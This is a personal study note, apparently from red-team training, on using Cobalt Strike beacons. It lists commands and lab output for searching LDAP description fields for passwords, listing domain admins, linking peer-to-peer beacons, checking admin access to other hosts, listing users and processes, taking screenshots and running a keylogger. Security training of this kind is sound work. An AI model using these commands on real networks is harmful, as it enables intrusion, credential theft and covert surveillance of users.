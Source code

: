 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  



### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`




### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server.


Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`



### Test Local Admin access

^7373ce

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```

### Currently logged on users

^b9973d

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

### Running Processes

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql

```




### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```






___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

